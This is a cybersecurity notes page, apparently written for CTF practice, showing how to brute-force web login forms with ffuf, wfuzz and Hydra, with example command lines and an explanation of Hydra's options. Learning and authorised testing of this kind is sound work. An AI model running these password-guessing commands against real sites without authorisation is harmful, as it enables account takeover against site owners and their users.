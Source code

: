 # Brute force forms

<div class="row row-cols-md-2"><div>

> Another alternative is Burp Suite with the [Intruder tab](/_cybersecurity/exploitation/web/burpsuite/index.md), but it's rate-limited in the Community Edition.
</div><div>

As a reminder, you can learn more about wordlists [here](/_cybersecurity/exploitation/general/index.md#-wordlists-).

> CTF are usually using `/usr/share/wordlists/rockyou.txt` for passwords, and a manually created list of usernames (if needed).
</div></div>

<hr class="sep-both">

## Brute force using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to brute force a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to brute force a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL/login.php
```
</div></div>

<hr class="sep-both">

## Brute force using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to brute force a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to brute force a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sep-both">

## Brute force authentication forms using Hydra

[See hydra for more information](/_cybersecurity/exploitation/services/bruteforce.md#hydra)

<div class="row row-cols-md-2"><div>

Hydra is mostly used to brute force services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will brute force is something like this</p>

```text
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, one by one
* Consider as failures (`-F`) any web page that returns the word "incorrect"

You should check the [brute force services](/_cybersecurity/exploitation/services/bruteforce.md) page to learn more about Hydra.
</div></div>